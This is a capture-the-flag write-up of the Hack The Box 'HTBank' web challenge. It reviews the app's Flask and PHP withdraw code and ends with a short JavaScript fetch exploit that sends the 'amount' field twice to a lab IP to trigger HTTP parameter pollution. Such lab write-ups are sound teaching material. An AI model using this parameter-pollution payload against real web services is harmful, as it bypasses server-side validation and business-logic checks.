




# [HTBank](https://app.hackthebox.com/challenges/htbank)

Another day another Web-Challenge (just kidding I was solving this at 02:00 the morning).
Anyhow, since this is an HTB-Challenge we are again given an IP+Port to a web-page as well as a demo setup (with a fake flag) containing all of the code that is being run.

## Looksies
When we visit the page we see a login/register form with a way too fancy animation:



Nothing special going on here, we just register our very serious user (amogus:amogus) and get to the main page:



Clicking *Add Money* sadly doesn't do anything, probably because I don't have any :sad:.
Clicking on *Withdraw Money* pops up a modal form that allows us to enter an `Account Number` and an `Amount`. Trying it out I only receive `Not enough credits` or `Only accept number!` (when entering anything that isn't a number).



However, when entering `0` as the `Amount` I get a third error:



It is very likely that the challenge wants us to find an exploit somewhere around this modal - let's have a look at the code:

## Red Herrings

### Red Herring Number 1
When looking at the source-code of the web-page we see that `/static/js/home.js` is included in the html as a script. Looking at this we can see that it handles three different use-cases:

1. The way-too-fancy particle background using `particles.js` which, although amazing, we don't really care about
2. Sending a POST request to `/api/withdraw` when we click on `Withdraw` in the modal form.
3. Interacting with some *etherscan* API and fetching the amount of some hard-coded wallet: 

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', "https://api.etherscan.io/api?module=account&action=balance&address=0x5A0b54D5dc17e0AadC383d2db43B0a0D3E029c4c&tag=latest&apikey=FH12Z2IYGM3JKD1RN42NG6VHSXV73YX61H", true);
xhr.send();
xhr.onreadystatechange = processRequest;
function processRequest(e) {
  var response = JSON.parse(xhr.responseText);
  var bal = (response.result / Math.pow(10, response.result.length));
  $('.bal').text(bal.toFixed(4));
}
```

My brain here immediately went: "API to wallet and wallet on site no money :(, therefore here exploit". After looking further into the code however, I looked for any place where the result of that API-call is used and the answer is **nowhere**. Like, there isn't even an HTML-Element with the `.bal`-css-class where that value would be assigned to, so after that API-call the result simply vanishes into nirvana.

### Red Herring Number 2
Since this didn't get us anywhere I started looking into the backend - consisting of a python-flask webserver that manages html-templates and handles our login-session and a php-backend that - to be frank (or george) - doesn't really do much.

- The python-frontend coveres most api-routes, even the `/api/withdraw` route.
- However, the php-backend also has an `/api/withdraw` route, which gets called whenever the equally-named route on the python-frontend gets called. The user can only directly interact with the python-server, the only way the php-backend gets called is through the indirect call over `/api/withdraw`.
- Both backends however communicate with the same MySQL Database.

Alright, given that, let's see which part would allow us to read out the flag:

- `WithdrawController.php`:

    ```php
    <?php
    class WithdrawController extends Controller
    {
        public function __construct()
        {
            parent::__construct();
        }

        public function index($router)
        {
            $amount = $_POST['amount'];
            $account = $_POST['account'];

            if ($amount == 1337) {
                $this->database->query('UPDATE flag set show_flag=1');

                return $router->jsonify([
                    'message' => 'OK'
                ]);
            }

            return $router->jsonify([
                'message' => 'We don\'t accept that amount'
            ]);
        }

    }
    ```
    Again, this is what is being called when the python-frontend calls `/api/withdraw`. As we can see, if we manage to reach this code and have `$amount = 1337` set, we have solved the challenge. Now let's have a look at the corresponding python-code. We can also see that we already got to this point once:

    > "We don't accept that amount"

    Remember that we got to this point because we set `$amount = 0`.

- `routes.py`:

    ```python
    @api.route('/withdraw', methods=['POST'])
    @isAuthenticated
    def withdraw(decoded_token):
        body = request.get_data()
        amount = request.form.get('amount', '')
        account = request.form.get('account', '')
        
        if not amount or not account:
            return response('All fields are required!'), 401
        
        user = getUser(decoded_token.get('username'))

        try:
            if (int(user[0].get('balance')) < int(amount) or int(amount) < 0 ):
                return response('Not enough credits!'), 400

            # call to php-backend here!
            res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", 
                headers={"content-type": request.headers.get("content-type")}, data=body)
            
            jsonRes = res.json()

            return response(jsonRes['message'])
        except:
            return response('Only accept number!'), 500
    ```
    As we can see we only managed to get to the backend because we set `amount = 0`, reason being that the balance of the user is also `0` by default and we hadn't changed that. So any amount larger 0 was larger than our balance and any negative amount would be captured by the second condition.

So my idea was to somehow increase our balance, which also wasn't the right approach. The problem here was two-fold:

1. All queries where prepared, so no SQL-Injection in sight
2. Any other method wouldn't have worked either since, after checking where `balance` is set or used for a user in the database, the answer is still **nowhere**! This api-call is the only place where we read the `balance` of a `user` and it is only a *read*. So this didn't seem to get me anywhere either.

## [The Final Solution](https://www.youtube.com/watch?v=_O3awC4mv4Q)

So let's reiterate what our current problem is: We assume that there simply isn't any way to change our users `balance`, since it is always 0 let's change the code to reflect that fact:

```python
if (0 < int(amount) or int(amount) < 0):
    return response('Not enough credits!'), 400

# call to php-backend here!
res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", 
                    headers={"content-type": request.headers.get("content-type")}, data=body)

jsonRes = res.json()

return response(jsonRes['message'])
```

So, doing basic boolean-algebra: `!(0 < x or x < 0) <=> !(0 < x) and !(x < 0) <=> x = 0`. So the only accepted value here is that `amount = 0`.
However when looking at the php-backend, we now that we have to set `$amount = 1337`.
So we now again have boolean-algebra: `x = 0 and x = 1337`, which is a very simple contradiciton. So this cannot possibly be the answer to this CTF, if it where, it would mathematically be unsolv...

```python
body = request.get_data() # reading the body
amount = request.form.get('amount', '') # reading form
account = request.form.get('account', '') # reading form

if not amount or not account:
    return response('All fields are required!'), 401

user = getUser(decoded_token.get('username'))

if (0 < int(amount) or int(amount) < 0): # using value from form-read
    return response('Not enough credits!'), 400

# call to php-backend here!
res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", 
                    headers={"content-type": request.headers.get("content-type")}, data=body) # passing body!

jsonRes = res.json()

return response(jsonRes['message'])
```

Don't tell me...

```javascript
data = new FormData();
data.append("account", "bla");

// setting amount twice
data.append("amount", 0);
data.append("amount", 1337);

r = await fetch("http://94.237.54.75:33881/api/withdraw", {
    "credentials": "include",
    "body": data,
    "method": "POST",
});

await r.text();
```

```json
{
  "message": "OK"
}
```

*Refreshes site*


:O

So it seems like I have now discovered `parameter pollution`, since we read `amount` differently twice and sent the same variable with different values to the frontend and backend simultaneously, we managed to get the flag not only by breaking the laws of mathematics but also my sanity.

I hate web-dev.
